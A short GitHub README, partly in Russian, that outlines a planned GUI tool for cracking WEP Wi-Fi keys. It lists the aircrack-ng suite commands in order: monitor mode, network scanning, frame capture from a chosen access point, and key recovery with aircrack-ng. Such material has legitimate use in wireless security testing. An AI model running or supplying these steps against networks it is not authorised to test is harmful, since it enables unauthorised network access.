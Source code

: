 # wep-crack
A small GUI tool which simplifies key cracking for Wep-protected Wi-Fi networks


1) sudo airmon-ng check kill
2) sudo airmon-ng > interfaces.temp - парсим аутпут tsv, добавляем интерфейсы в список
3) sudo airmon-ng start [interface-name]
4) Кнопка поиска сетей: sudo airodump-ng [interface-name] -o csv -w networks.temp ждём 10 секунд, завершаем прогу, парсим csv в файле networks.temp. Забираем название сети, BSSID, Channel
5) sudo airodump-ng --bssid [network-bssid] --channel [network-channel] --write basic_wep.cap [interface-name]. Необходимо раз в 5 секунд парсить csv файл на предмет количества полученных фреймов. Ищем процент от 100 - индикатор состояния.
6) sudo aircrack-ng -z basic_wep.cap-01.cap - парсим после слов KEY FOUND
7) rm basic_wep*

По завершении работы:
8) sudo airmon-ng stop wlp0s20f3mon
9) возвращаем Network Manager: sudo systemctl start NetworkManager

Действия на шагах 5-6 возможны только в случае наличия активности в сети. Её придётся симулировать с помощью второго устройства и скрипта, который обращается к 192.168.1.1 например